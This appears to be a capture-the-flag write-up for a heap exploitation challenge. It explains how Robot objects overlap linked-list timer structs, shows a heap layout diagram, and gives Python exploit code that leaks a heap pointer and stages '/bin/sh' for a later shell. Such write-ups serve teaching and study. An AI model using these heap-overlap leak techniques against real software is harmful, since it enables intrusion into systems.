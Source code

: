 ```c
struct timer {
	/* 00 + 08 */ void *cb_arg;
	/* 08 + 08 */ void (*callback)(void *, void *, void *);
	/* 10 + 08 */ struct slist_node node;
	/* 18 + 10 */ struct timespec expiry;
}; /* sizeof = 0x28, malloc size: 0x30 */
```

The linked list is tracked using the `struct slist_node node` field, where this type is:

```c
struct slist_node {
    struct slist_node *next;
};
```

This defines a singly linked list in a style inspired by the Linux kernel, where structs
that wish to be added to lists must contain a "list node" field. The list node field points
to the list node field of the neighboring connected linked list node(s). These pointers then
don't point to the beginning of a `struct timer`, but rather to the `struct slist_node node`
field within the `struct timer`. Also important is that the final node in the linked list
has its `node.next` field set to `NULL`. Finally, as soon as a timer expires and its callback
function returns, the timer object will be freed.

As you interact with the program and start creating robots, any robots created after the
first will be in unallocated space. They will end up overlapping with the timer objects.
Due to intentional alignment of the heap, the `Robot` and `struct timer` objects will
always overlap cleanly starting with their first byte. This means that the `_padding` field
we can leak from a `Robot` overlaps with the `struct slist_node node` field of a timer object.
_Side note: It also overlaps with the internal heap metadata that will come between timer_
_objects, which was an intentional decision to discourage heap metadata exploits_. Therefore, as long as a timer object is NOT the last in the linked list and overlaps with a `Robot`,
leaking from the robot's name will leak a heap pointer (the address of the next linked list
node, meaning the timer that expires directly after the current one).

To make this leak happen, here's what the heap layout will look like. Note that I refer to
the first robot as `R1`, and its matching timer is named `T1`. Internal heap metadata is
shown as an `X`, and overlapping objects are above/below.

```
                (next) _________
                      /         \
+----+-+--------+-+--/------+-+--v-+-----
| R1 |X| g_slot |X| T1      |X| T2 | ...
+----+-+--------+-+---------+-+----+-----
     | R2         | R3 (leak) | ...
     +------------+-----------+-----
```

And here's the relevant exploit code:

```python
# R1: long timer and name "/bin/sh" for later
info("R1: /bin/sh and prep for heap leak")
build_robot(r, b"/bin/sh", 1337, False, False, 95 * SECS)

# R2: longER timer. Must expire after T1 so T1->next is a heap
#     pointer, not NULL
info("R2: prepare heap pointer to leak")
build_robot(r, b"nonnull", 2, False, False, 96 * SECS)

# R3: no NUL bytes, will leak heap addr.
#     small timer, as it's also the corruption target
info("R3: heap leak")
heap_leak = build_robot(r, b"0123456789", u32(b"ABCD"), True, True, 1 * SECS)
heap_leak = heap_leak[0x10:]
info(f'Leak: {repr(heap_leak)}')

```